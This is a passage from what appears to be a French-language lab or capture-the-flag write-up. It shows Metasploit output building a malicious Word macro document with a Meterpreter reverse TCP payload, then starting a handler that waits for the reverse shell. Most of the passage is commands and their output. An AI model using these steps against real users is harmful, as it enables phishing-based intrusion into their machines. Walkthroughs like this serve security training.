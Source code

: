 {% capture spoil %}
Module options (exploit/multi/fileformat/office_word_macro):

   Name            Current Setting                     Required  Description
   ----            ---------------                     --------  -----------
   CUSTOMTEMPLATE  /opt/metasploit-framework/embedded  yes       A docx file that will be used as a template to build the exp
                   /framework/data/exploits/office_wo            loit
                   rd_macro/template.docx
   FILENAME        you_w0n.docm                        yes       The Office document macro file (docm)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     ens5             yes       The listen address (an interface may be specified)
   LPORT     9000             yes       The listen port

   **DisablePayloadHandler: True   (no handler will be created!)**


Exploit target:

   Id  Name
   --  ----
   0   Microsoft Office Word on Windows

msf6 exploit(multi/fileformat/office_word_macro) > run

[*] Using template: /opt/metasploit-framework/embedded/framework/data/exploits/office_word_macro/template.docx
[*] Injecting payload in document comments
[*] Injecting macro and other required files in document
[*] Finalizing docm: you_w0n.docm
[+] you_w0n.docm stored at /root/.msf4/local/you_w0n.docm
{% endcapture %}
{% include elements/spoil.html %}

> l'option `setg` (*set global*) permet de saisir les paramètres qui seront conservés, ce qui nous fera gagner du temps lors de la mise en place du *handler* à l'étape suivante.

```txt
msf6 exploit(multi/fileformat/office_word_macro) > use multi/handler
[*] Using configured payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > show options

Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.189.230    yes       The listen address (an interface may be specified)
   LPORT     9000             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target

msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.10.189.230:9000
```
